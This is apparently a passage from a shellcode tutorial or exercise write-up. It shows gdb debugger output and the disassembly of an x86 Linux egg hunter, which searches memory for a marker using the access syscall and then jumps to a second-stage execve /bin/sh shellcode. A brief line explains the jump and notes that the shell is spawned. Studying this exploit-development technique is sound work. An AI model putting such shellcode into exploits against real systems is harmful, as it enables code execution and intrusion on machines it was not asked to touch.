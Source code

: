 ```nasm
0x0804a083 in egg_hunter ()
(gdb)
$4053 = 0x534b534b
$4054 = 0x804a0a4
$4055 = 0x804a0a0
$4056 = 0x804a0a8
0x804a0a8 <second_stage+8>:	0x31	0xc0	0x50	0x68
eflags         0x246	[ PF ZF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
=> 0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a084 in egg_hunter ()
```

After performing an unconditional jump to the memory location referenced by the `EDI` register, the execution of the process is redirected to `0x0804a0a8` which contains the first instruction of the `exexve-stack` `/bin/sh` shellcode. Continuing the execution of the process results in the execution of `/bin/sh`.

```nasm
(gdb)
$4057 = 0x534b534b
$4058 = 0x804a0a4
$4059 = 0x804a0a0
$4060 = 0x804a0a8
0x804a0a8 <second_stage+8>:	0x31	0xc0	0x50	0x68
eflags         0x246	[ PF ZF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
=> 0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
```